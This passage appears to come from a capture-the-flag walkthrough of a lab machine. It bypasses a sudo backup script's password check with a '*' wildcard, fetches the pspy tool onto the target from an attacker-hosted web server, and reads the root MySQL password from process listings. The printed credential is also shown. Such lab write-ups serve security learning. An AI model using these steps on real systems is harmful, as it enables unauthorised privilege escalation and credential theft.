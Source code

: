 So this means that if we use the password `*` we should be able to pass the password checker because the `*` symbol means any so it checks the `if` statement and the DB_PASS would equal anything.

Now running the script using this as the password, we see we are able to successfully run the command.

```
sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Now is the next step, when executing commands such as is done in the script, briefly in the processes, the whole command shows up. Considering that the `$DB_PASS` is obscured in the script, it will be visible in the processes. To see the processes we need to use a process snooper such as pspy.

To get the pspy software on the target machine, we will download it locally on our attacker machine then send it to the target machine and run the software.

```
### Attacker Machine
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
python3 -m http.server 8000

### Target Machine
wget http://10.10.16.2:8000/pspy64s
chmod +x pspy64s
./pspy64s
```

Now we will ssh into the target machine again and run the command that we can run as root with the password:

```
ssh joshua@10.10.11.239
sudo /opt/scripts/mysql-backup.sh
```

Now looking in the output of pspy we see the following commands that were run:

```
2025/01/10 11:10:09 CMD: UID=1000 PID=2283   | sudo /opt/scripts/mysql-backup.sh 
2025/01/10 11:10:09 CMD: UID=0    PID=2284   | /bin/bash /opt/scripts/mysql-backup.sh 
2025/01/10 11:10:09 CMD: UID=0    PID=2285   | /usr/bin/cat /root/.creds 
2025/01/10 11:10:10 CMD: UID=0    PID=2291   | /usr/bin/grep -Ev (Database|information_schema|performance_schema) 
2025/01/10 11:10:10 CMD: UID=0    PID=2290   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES; 
2025/01/10 11:10:10 CMD: UID=0    PID=2289   | /bin/bash /opt/scripts/mysql-backup.sh 
2025/01/10 11:10:10 CMD: UID=0    PID=2295   | /usr/bin/gzip 
2025/01/10 11:10:10 CMD: UID=0    PID=2294   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql 
2025/01/10 11:10:11 CMD: UID=0    PID=2296   | /bin/bash /opt/scripts/mysql-backup.sh 
2025/01/10 11:10:11 CMD: UID=0    PID=2298   | /usr/bin/gzip 
2025/01/10 11:10:11 CMD: UID=0    PID=2297   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys 
2025/01/10 11:10:11 CMD: UID=0    PID=2300   | /bin/bash /opt/scripts/mysql-backup.sh 
```